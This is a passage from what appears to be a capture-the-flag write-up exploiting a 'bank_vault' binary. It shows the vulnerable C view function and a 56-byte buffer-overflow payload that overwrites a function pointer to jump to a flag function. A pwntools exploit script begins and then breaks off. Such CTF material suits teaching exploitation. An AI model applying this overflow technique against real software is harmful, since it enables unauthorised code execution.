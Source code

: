 ### Finding the Trigger Mechanism

The "View Account" function (menu option 3) retrieves an account by ID and calls the account's `display_func` pointer:

```c
void view_account(void) {
    int account_id;
    account_struct *account;

    printf("Enter account ID to view: ");
    scanf("%d", &account_id);

    if (account_id >= 0 && account_id < num_accounts) {
        account = accounts[account_id];
        account->display_func(account);  // ← HIJACK POINT!
    }
}
```

## Exploitation Strategy

### Attack Vector
1. **Create Account** (Option 1): Send exactly 56 bytes to overflow the buffer and overwrite function pointers
2. **View Account** (Option 3): Trigger the overwritten function pointer to execute the flag function

### Payload Construction
```python
payload = b'A' * 32          # Fill name buffer (32 bytes)
payload += b'B' * 8          # Overwrite balance field (8 bytes)
payload += p64(0x401267)     # Overwrite display_func with flag function (8 bytes)
payload += p64(0x401267)     # Overwrite withdraw_func as backup (8 bytes)
# Total: 56 bytes exactly
```

## Exploit Implementation

### Setup
```bash
# Create flag file (or symlink to existing)
$ ln -sf fake_flag_testing flag
```

### Python Exploit Script
```python
#!/usr/bin/env python3
from pwn import *

def exploit():
    # Configure pwntools
    context.arch = 'amd64'
    context.log_level = 'info'

    # Start the process
    p = process('./bank_vault')

    # Step 1: Create malicious account
    p.recvuntil(b'Choice: ')
    p.sendline(b'1')  # Create Account

    p.recvuntil(b'Enter account name: ')
```